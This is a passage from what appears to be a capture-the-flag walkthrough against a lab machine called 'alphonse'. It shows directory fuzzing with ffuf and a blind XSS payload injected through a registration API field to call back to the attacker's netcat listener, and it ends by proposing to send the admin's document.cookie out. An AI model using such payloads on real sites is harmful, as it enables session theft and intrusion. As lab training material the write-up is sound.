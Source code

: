 Looks like it's working, and we are given a JWT token. What can we do from here? Let's go back to do some more enumeration of the newly discovered web directory.

```
root@kali:~# ffuf -w /usr/share/wordlists/dirb/big.txt -u http://alphonse/dnanalyzer/FUZZ
.htaccess               [Status: 403, Size: 307, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 307, Words: 22, Lines: 12]
api                     [Status: 301, Size: 321, Words: 20, Lines: 10]
portal                  [Status: 301, Size: 324, Words: 20, Lines: 10]
vendor                  [Status: 301, Size: 324, Words: 20, Lines: 10]
:: Progress: [20469/20469] :: Job [1/1] :: 2046 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
root@kali:~# 
```

The portal folder looks interesting, which provides a html page with a login form. However, providing our newly created user didn't get us inside. Maybe this is an admin portal?

```
root@kali:~# curl http://alphonse/dnanalyzer/portal/
<form action="" method="POST"><input name="user" type="text" placeholder="username" /></br><input name="pass" type="password" placeholder="password" /></br><input name="login" type="submit" value="Login" /></form>
root@kali:~# 
```

### Out-of-bound XSS

If this is an admin portal and an administrator is viewing user information, maybe we can trigger an XSS. Since we are very much blind here, we will send a simple out-of-bounds payload, loading an image from our attacking machine (192.168.0.34). Be sure to open a listener on the attacking machine first. 

```
nc -nlvp 80
```

```
root@kali:~# curl -i -d "username=test2&password=test2&dna_string=<img src='http://192.168.0.34/x'>" http://192.168.0.36/dnanalyzer/api/register.php
HTTP/1.1 200 OK
Date: Wed, 16 Sep 2020 21:36:13 GMT
Server: Apache/2.4.38 (Debian)
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: POST
Access-Control-Max-Age: 3600
Access-Control-Allow-Headers: Content-Type, Access-Control-Allow-Headers, Authorization, X-Requested-With
Content-Length: 47
Content-Type: application/json; charset=UTF-8

{"message":"User was successfully registered."}
```

After some minutes we can see a request made to our machine:
```
root@kali:~# nc -nlvp 80
GET /x HTTP/1.1
Host: 192.168.0.34
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/dnanalyzer/portal/index.php
Connection: keep-alive
```
Also, here we learn about the portal page. Now, let's try to check if there are any cookies by sending document.cookie back to our server.

